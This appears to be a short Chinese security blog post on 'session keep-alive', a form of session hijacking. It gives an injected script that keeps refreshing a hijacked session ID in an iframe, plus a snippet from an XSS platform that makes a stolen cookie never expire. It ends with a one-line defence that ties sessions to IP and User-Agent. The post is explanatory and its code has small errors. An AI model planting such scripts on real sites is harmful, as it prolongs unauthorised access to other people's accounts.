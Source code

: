 ```yaml
---
title: "14 会话保持攻防"
date: 2024-01-10T15:37:34+08:00
categories: ["Web安全和加速"]
tags: ["网络安全","技巧"]
draft: false
code:
  copy: true
toc:
  enable: true
---
```


> 会话保持是一种特殊的会话劫持，是建立在会话劫持的理论基础上，攻击者通过不断刷新导致服务端误判当前用户是持续活跃状态，导致`Session`永不过期，可以长期被利用劫持会话。

## 一、攻击步骤

1. 攻击者植入如下脚本，主要目的就是每隔一小段时间，就尝试用劫持来的`SessionID`访问目标系统，保持`Session`存活`Cookie`永不过期

   ```html
   <!-- Session 保活 -->
   <script>
   //要保持session的url
   var url = "http://www.normal.com/wap/index.php?/sid=LOXSAJH4M";
   //定时任务
   window.setInterval("keeyId()",6000);
       
   function keepsid(){
   	document.getElementById("iframe1").src=url+"&time"+Math.random();
   }
   </script>
   <iframe id="iframe1" src=""/></iframe>
   ```

   ```javascript
   // Cookie 永不过期
   // Anehta 是一个XSS利用平台
   anehta.dom.persistCookie = function (cookieName) {
   	if (anehta.dom.checkCookie(cookieName) == false) {
   		return false;
   	}
   	try{
   		document.cookie = cookieName + "=" + anehta.dom.getCookie(cookieName)+";" + "expires=Thu, 01-Jan-
   2038 00:00:01 GMT;";
   	} catch( e){
   		return false;
   	}
   	return true;
   }
   ```

## 二、防护策略

1. 比较建议的做法是服务端判断当前访问用户的`IP`、`UserAgent`等能标识用户的客户端环境信息，当发生变化时立刻销毁`Session`并要求用户重新登陆。
